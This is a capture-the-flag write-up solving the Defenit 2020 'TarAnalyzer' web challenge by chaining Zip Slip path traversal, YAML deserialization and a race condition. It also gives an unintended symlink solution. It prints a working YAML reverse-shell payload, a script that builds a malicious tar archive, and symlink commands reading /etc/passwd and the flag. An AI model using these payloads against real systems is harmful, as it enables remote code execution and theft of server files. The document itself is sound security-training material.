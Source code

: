 ```yaml
---
title: TarAnalyzer - 2020 Defenit CTF
date: 2020-06-07 23:00:00
author: c3rb3ru5
author_url: https://twitter.com/__c3rb3ru5__
categories:
 - Web Exploitation
tags:
 - YAML
 - Zip Slip
 - Race Condition
 - Symlink
 - Defenit
---
```


**tl;dr**

+ Zip Slip Vulnerability + YAML Deserialization Attack + Race Condition
+ Unintended Solution: Upload symlink leading to arbitarary file reads

<!--more-->

**Solved by**: [c3rb3ru5](https://twitter.com/__c3rb3ru5__)

## Challenge Description

Our developer built simple web server for analyzing tar file and extracting online. He said server is super safe. Is it?
Download source code from [here](tar-analyzer.tar.gz)

## Analysis

1. We are given a web app which extracts all the files to the server from any tarfile that we upload.
2. Endpoints
  - GET `/`
  - GET `/<path:host>`
    - Read uploaded files from server.
    - Protection against Path Traversal.
  - POST `/analyze`
    - Upload Tar Archives.
    - Uses `extractall()` whose [documentation](https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall) states that files can be created outside of the path.
  - GET `/admin`
    - `Serializes` hardcoded data into `YAML` and writes to file `config.yaml`.
    - Also `deserializes` the YAML stream from the file and checks for the `host`.
3. The application uses `tarfile` python library which has some vulnerabilities like:
  - Path Traversal
  - Symlink File Attack
  - [More Info](https://bugs.python.org/issue21109)
4. The application uses `yaml` and write serialized payload to the file `config.yaml` and also deserializes the contents of that file later on, so a possible deserialization attack can be performed.

## Solution
When `/admin` is serviced, `initialization()` function is called, in which we know that the file `config.yaml` has data written to it and, thereafter it is also being read when `hostcheck()` function is called. So there is a short timespan between the writing and reading, so if in between that time, we can overwrite that file, with our payload, then we can perform a Race Condition, acknowledging that the time frame will be somewhat small.

#### In `initialization()`:
```python
def initializing():
    try:
        with open('config.yaml', 'w') as fp: 
            data = {'allow_host':'127.0.0.1', 'message':'Hello Admin!'}
            fp.write(dump(data))

    except:
        return False
```

#### In `hostcheck()`:
```python
def hostcheck(host):
    try:
        with open('config.yaml', 'rb') as fp: 
            config = load(fp.read(), Loader=Loader)

        if config['allow_host'] == host:
            return config['message']

        else:
            raise()

    except:
        return False
```

The Zip Slip is a widespread critical archive extraction vulnerability, with which we can write arbitrary files on the server, that may rresult in RCE. It was found in the [research](https://github.com/snyk/zip-slip-vulnerability#affected-libraries) by the Snyk Security team, and they also found out that the Python `tarfile` library was affected by it.

So using the Zip Slip vulnerability, which basically arises because of the `extractall()` function, it does not check if the  we can create a file with the name `../../config.yaml` and it will overwrite the existing file which had the hardcoded data.

After this is done, the contents of `config.yaml` which we overwrote will be deserialized. So we can create a YAML deserialization payload which creates a reverse shell and then get RCE on the server.

For more information on YAML Deserialization, refer to this [whitepaper](https://dl.packetstormsecurity.net/papers/general/yaml-deserialization.pdf) by [\_j0lt](https://twitter.com/_j0lt) and [lon3\_rang3r](https://twitter.com/lon3_rang3r).

#### RCE Payload:
```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - python
  - -c
  - "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('HOST',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
```

You can use [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) to create the payload.

#### Create Malicious TarFile
```python
import tarfile
import io

tar = tarfile.TarFile('malicious.tar', 'w')

info = tarfile.TarInfo("../../config.yaml")

HOST = 'localhost'
PORT = 1234

deserialization_payload = """ 
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - python
    - -c
      - "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
""".format(HOST, PORT)

info.size=len(deserialization_payload)
info.mode=0o444 # So it cannot be overwritten

tar.addfile(info, io.BytesIO(deserialization_payload))
tar.close()
```

So combining Zip Slip and YAML Deserialization and performing a Race Condition will get us a reverse shell on our HOST.

## Unintended Solution
During the CTF, we solved this challenge by using Symlinked files, and I came to know of the intended solution posted above from the post-ctf discussions on Discord.

This vulnerability can be found [here](https://bugs.python.org/issue21109)

So trying to read `/etc/passwd`:

```bash
ln -s /etc/passwd passwd
tar -cvf malicious.tar passwd
```

We got:

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
analyzer:x:1000:1000:Linux User,,,:/home/analyzer:
```

Trying commonn flag locations:

```bash
ln -s /flag.txt flag
tar -cvf malicious.tar flag
```

And we got the flag.

## Flag
`Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}`
